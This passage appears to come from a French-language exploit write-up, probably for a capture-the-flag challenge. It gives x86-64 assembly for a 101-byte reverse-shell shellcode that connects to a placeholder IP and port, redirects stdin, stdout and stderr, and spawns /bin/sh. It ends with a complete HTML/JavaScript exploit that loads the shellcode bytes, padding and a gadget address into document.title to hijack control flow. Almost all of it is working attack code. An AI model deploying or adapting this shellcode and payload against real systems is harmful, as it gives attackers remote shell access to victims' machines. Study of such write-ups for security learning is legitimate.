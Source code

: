 ```assembly

	; connect(sockfd, &saddr, 0x10)
	mov rdi, rax
	mov al, 42
	push rdx
	push rdx
	mov byte [rsp], 0x2
	mov word [rsp + 2], 0xf00d ; PORT
	mov dword [rsp + 4], 0xdeadbeef ; ADRESSE IP
	mov rsi, rsp
	mov dl, 0x10

	syscall

	; dup2(clientfd, [0,1,2])
	xor rsi, rsi
	duplicate:
		mov al, 33
		syscall
		inc sil
		cmp sil, 0x2
		jle duplicate

	; execve("/bin/sh", NULL, NULL)
	jmp binsh

	shell:
	mov al, 0x3b
	xor rsi, rsi
	xor rdx, rdx
	pop rdi

	mov [rdi + 7], sil ; permet de ne pas avoir de nullbyte dans le shellcode

	syscall

	binsh:
		call shell
		db "/bin/shx"
```



Ce shellcode fait 101 octets, et il y a 15 octets à rajouter à `[rax]` pour obtenir le début de notre shellcode, nous devons donc faire en sorte que `bl = 15` pour sauter pile poil sur notre shellcode.

Voici l'exploit final:

```html
<script>
var title = '\x48\x31\xc0\x48\x89\xc2\xb0\x29\x48\x89\xd6\x48\xff\xc6\x48\x89\xf7\x48\xff\xc7\x0f\x05\x48\x89\xc7\xb0\x2a\x52\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x0d\xf0\xc7\x44\x24\x04\xef\xbe\xad\xde\x48\x89\xe6\xb2\x10\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\x40\x80\xfe\x02\x7e\xf3\xeb\x0f\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x5f\x40\x88\x77\x07\x0f\x05\xe8\xec\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x78';
title += '\x90'.repeat(137 - 8*3 - title.length);
title += '\x0f'.repeat(8); // rbx, bl = 0x0f : on ajuste le début de notre shellcode
title += '\xff'.repeat(8); // r12
title += '\xff'.repeat(8); // rbp
title += '\x67\x3e\x40'; // 0x403e67: add byte ptr [rax], bl; jmp qword ptr [rax]; 

document.title = title;
</script>
```
